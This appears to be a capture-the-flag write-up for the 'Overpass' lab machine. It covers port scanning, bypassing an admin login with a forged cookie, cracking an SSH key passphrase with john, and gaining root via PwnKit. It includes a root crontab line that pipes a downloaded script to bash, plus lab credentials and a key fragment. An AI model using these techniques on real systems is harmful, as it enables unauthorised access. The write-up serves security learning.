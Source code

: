 # Overpass
What happens when some broke CompSci students make a password manager?

---

What happens when a group of broke Computer Science students try to make a password manager?\
Obviously a perfect commercial success!

The machine was slightly modified on 2020/09/25. This was only to improve the performance of the machine. It does not affect the process.

---

Given the IP address of the target machine, we launch first our scan.
```
$ sudo nmap -sV $target_ip -Pn -n -p-

<...snip...>
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The Go-powered HTTP server serves the website of the company Overpass. From there we can download executables of the password manager as well as the source code.\
The team uses rot47 as the cryptography scheme, which is very weak, and anyone who can access the encryption file called `.overpass` can decrypt all the contained passwords.

Enumerating the website directories, we find the admin login page. One might try to brute force some login credentials, but the challenge hints at an OWASP vulnerability so there should be a better way.

Inspecting the source code we have at `/admin` we find several scripts being referenced, which we can check out.\
The most interesting one is `login.js` which implements the logic of the login procedure. It's in this script where the flaw resides. Cookies management is broken (OWASP broken access control) and we can add our own cookie with any random value and will get accepted and give us a session as an admin.

```
$ curl http://<target_ip>/admin/ --cookie "SessionToken=whatever"

<...snip...>
        <div>
            <p>Since you keep forgetting your password, James, I've set up SSH keys for you.</p>
            <p>If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.<br>
                Also, we really need to talk about this "Military Grade" encryption. - Paradox</p>
            <pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
<...snip...>
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----</pre>
        </div>
    </div>
</body>
```

Very juicy information. We got an RSA private key as well as the corresponding username James. Now we can try connecting via SSH.\
Let `id_rsa` be the file containing the private key. If we try ssh to the target machine, we'll be prompted to enter a passphrase:

```
$ ssh james@<target_ip> -i id_rsa

Enter passphrase for key 'id_rsa': 
```

Let's use `john` to crack this passphrase. First, we extract the passphrase's hash, and then we launch the attack:
```
$ ssh2john id_rsa > hash

$ john hash -wordlist:/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)

```

Sweet, now we can connect. The user flag is in James' home directory.\
That directory contains another note, named `todo.txt`:
```
james@overpass-prod:~$ cat todo.txt
 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

James uses Overpass, thus, the `.overpass` file is in his home directory.
Having this file, we can use Overpass (downloadable from the website) to access James' passwords (maybe we can use them later):
```
james@overpass-prod:~$ ./overpassLinux       
                                                         
Welcome to Overpass
Options:
1       Retrieve Password For Service
2       Set or Update Password For Service
3       Delete Password For Service
4       Retrieve All Passwords
5       Exit
Choose an option:       4
System   saydrawnlyingpicture
```

While exploring the machine for possible privilege escalation opportunities,
I came across the below crontab file and thought maybe we could manipulate
`buildscript.sh` to obtain a root shell. Unfortunately, I couldn't find that file
on the machine (looks like the web app is hosted on a virtual environment different from `overpass-prod`).
```
james@overpass-prod:~$ cat  /etc/crontab

<...snip...>
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Without any further enumeration, we use the `linPEAS.sh` to give us quick results.
```
james@overpass-prod:~$ ./linPEAS.sh

<...snip...>
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                            
[+] [CVE-2021-4034] PwnKit                                                                    

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

```

Check out [this GitHub repo](https://github.com/berdav/CVE-2021-4034) for a good exploitation script.

Once executed, we have access to a root shell. Hence, the root flag.
